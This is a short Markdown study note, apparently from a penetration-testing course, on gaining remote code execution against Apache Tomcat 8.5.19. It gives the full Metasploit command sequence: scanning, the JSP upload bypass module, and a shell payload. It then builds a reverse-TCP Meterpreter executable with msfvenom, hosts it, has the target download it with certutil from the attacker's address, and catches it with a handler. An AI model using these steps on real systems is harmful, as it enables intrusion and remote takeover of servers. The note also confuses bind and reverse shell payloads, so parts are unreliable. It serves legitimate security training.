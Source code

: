 ## Apache Tomcat (Tomcat server)
* Free+ Open source Java servlet web server.
* Use the HTTP protocol to communicate
* Typically operates on TCP port 8080 or 443.
* **Difference between HTTP web server & Apache Tomcat**
  * Apache Tomcat: Used to build and host dynamic web apps based on the Java platform
  * HTTP web server: Used to host static/ dynamic websites developed in PHP.
 
* **What's the vulnerability**
  * Apache Tomcat V8.5.19 is vulnerable to a remote code execution vulnerability that allows to execute a JSP payload in order to gain access.
  * MSF exploit module is pre-built in msfconsole
 
* PRACTICAL
* `service postgresql start && msfconsole`
* `workspace -a [name]`
* `setg rhosts [IP]`
* `db_nmap -sS -sV -O [IP]`
* `search type:exploit tomcat`
* `use exploit/multi/http/tomcat_jsp_upload_bypass`
    * This module uploads a JSP payload and executes it.
* `set payload java/jsp_shell_bind_tcp`
    * Payload needs to be set to get a reverse shell, as it provides the way to set LHOST and LPORT
* `run` --> This will give a shell but not a meterpreter session
* ***
* We will try to get a meterpreter session instead of a shell
* This can be done by generate a payload with msfvenom --> Upload to the target on the target through the shell session ---> Receive a meterpreter session through a listener.
* `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attacker'sIP] LPORT=port] -f exe > meterpreter.exe`
* `sudo python -m SimpleHTTPServer 80`
* Now on the target machine where we got a shell session:
  * `certutil -urlcache -f http://10.10.21.2/meterpreter.exe > meterpreter.exe`
  * `dir` --> We should be able to see the downloaded payload
 
* Go back to the attacker's machine where server was running at port 80 and turn it off
* `vim handler.rc`
* `use multi/handler set payload windows/meterpreter/reverse_tcp set lhost [IP] set lport [port] run`
* `msfconsole -r handler.rc`
* 

* **Extrazz** :
  * Meterpreter session has higher functionality than a shell.
